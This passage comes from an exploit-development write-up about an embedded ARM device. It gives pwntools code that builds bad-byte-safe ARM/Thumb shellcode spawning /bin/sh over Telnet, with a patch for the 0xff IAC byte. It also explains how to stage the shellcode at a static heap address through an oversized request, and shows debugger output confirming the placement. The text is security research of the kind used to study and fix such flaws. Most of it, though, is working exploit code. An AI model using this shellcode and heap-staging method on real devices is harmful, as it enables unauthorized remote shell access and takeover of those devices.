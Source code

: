 After the adjustments, we can produce a small, bad-byte safe shellcode that will spawn a shell on our target device over Telnet:

```
# ARM926EJ-S rev 5 (v5l) 
# execve("/bin/sh","/bin/sh",0)
sc = b''
sc += asm('add r4,pc,#1')
# Double byte patch (Telnet 0xff IAC byte patch), switch to Thumb
sc += asm('bx r4').replace(b'\xff',b'\xff\xff') 

# Switch CPU context
context.arch='thumb' 

sc += asm("""
mov r0, pc;
adds r0,#11;
str r0,[sp,#4];
add r1,sp,#4;
eors r2,r2,r2;
movs r7,#11;
svc 1;
cmp r7,#47;
ldr r2,[r4,#20];
cmp r7,#110;
ldr r3,[r6,#4]
""")


```

In the first payload we are going to request more than 100 bytes and place our shellcode in the known, static address on the heap. We are not going to trigger the vulnerablity yet, we're just abusing the functionality to store our data.

We can verify that our shellcode is indeed intact and at the static address on the heap:

```
gef➤  x/2i 0x16098
   0x16098:	add	r4, pc, #1
   0x1609c:	bx	r4


```

The rest of the opcodes starts at 0x160a0, however, we are dealing with 2-byte aligned Thumb instructions, hence +1 is added to the address:

```
gef➤  x/11i 0x160a1
   0x160a1:	mov	r0, pc
   0x160a3:	adds	r0, #11
   0x160a5:	str	r0, [sp, #4]
   0x160a7:	add	r1, sp, #4
   0x160a9:	eors	r2, r2
   0x160ab:	movs	r7, #11
   0x160ad:	svc	1
   0x160af:	cmp	r7, #47	; 0x2f
   0x160b1:	ldr	r2, [r4, #20]
   0x160b3:	cmp	r7, #110	; 0x6e
   0x160b5:	ldr	r3, [r6, #4]


```
